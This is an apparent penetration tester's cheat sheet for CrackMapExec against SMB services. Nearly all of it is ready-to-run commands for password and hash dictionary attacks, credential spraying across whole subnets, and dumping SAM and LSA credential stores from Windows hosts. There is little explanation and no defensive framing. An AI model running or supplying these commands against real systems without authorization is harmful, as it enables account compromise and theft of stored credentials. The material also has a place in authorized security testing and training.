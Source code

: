 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
sudo apt install crackmapexec
```

```bash - kali
crackmapexec --help
```

#### [error] Is a directory
When you get the "Is a directory" error, just cd ../ and run again as shown below, so your target's IP folder is not there.  

![[Pasted image 20220107163056.png|1000]]

#### Dictionary attack (Hashes)
```bash - kali
crackmapexec smb $TARGET -u $HOSTNAME/$USERS_FILE -H $HOSTNAME/$HASHES_FILE
```

#### Dictionary attack (Passwords)
```bash - kali
crackmapexec smb $TARGET -u $USER -p /usr/share/seclists/Passwords/Common-Credentials/best1050.txt
```

#### User dictionary attack with single password
```bash - kali
crackmapexec smb $TARGET -u $USERS_FILE -p '$PASSWORD'
```

#### Spray username and hash
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -H $HASH
```

#### Spray username and password
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -p $PASSWORD
```

#### sam file dump with crackmapexec
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -p $PASSWORD --sam
```

#### lsa file dump with crackmapexec
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -p $PASSWORD --lsa
```
